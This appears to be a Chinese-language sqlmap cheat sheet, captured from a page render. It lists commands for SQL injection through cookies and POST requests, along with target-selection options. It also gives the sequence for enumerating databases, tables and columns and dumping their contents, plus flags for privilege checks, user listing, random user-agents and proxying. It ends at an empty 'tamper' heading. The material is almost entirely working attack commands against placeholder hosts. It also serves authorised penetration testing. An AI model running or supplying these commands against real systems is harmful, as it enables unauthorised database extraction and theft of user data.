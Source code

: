 * cookie注入

  sqlmap -u "http://www.xxx.com/xxx.php" --cookie "id=xxxx" --level 2

* 从post数据包中注入

  sqlmap -r "D:\test\post.txt" -p id --dbms mysql    -p指定参数

## **指定不同格式的目标**

-d DIRECT 直接连接到数据库。

-u URL, --url=URL 目标URL。

-l LIST 从Burp或WebScarab代理的日志中解析目标。

-r REQUESTFILE 从一个文件中载入HTTP请求。

-g GOOGLEDORK 处理Google dork的结果作为目标URL。

-c CONFIGFILE 从INI配置文件中加载选项。

## 查数据

* 查看数据库

  sqlmap -u "http://www.xxx.com/xxx.php?id=1" --dbs

* 查看表

   sqlmap -u "http://www.xxx.com/xxx.php?id=1" -D db --tables  （-D指定数据库）

* 查看字段

   sqlmap -u "http://www.xxx.com/xxx.php?id=1" -D db -T table --columns  （ -T指定表）

* 读取数据

   sqlmap -u "http://www.xxx.com/xxx.php?id=1" -D db -T table -C c1,c2 --dump  (-C指定字段）


## 其他参数

--is-dba  当前用户权限（是否为root权限）

--dbs  所有数据库

--current-db  网站当前数据库

--users  所有数据库用户

--current-user  当前数据库用户

--random-agent  构造随机user-agent

--proxy http://127.0.0.1:8080   代理

--time-sec=TIMESEC   DBMS响应的延迟时间（默认为5秒）

## tamper
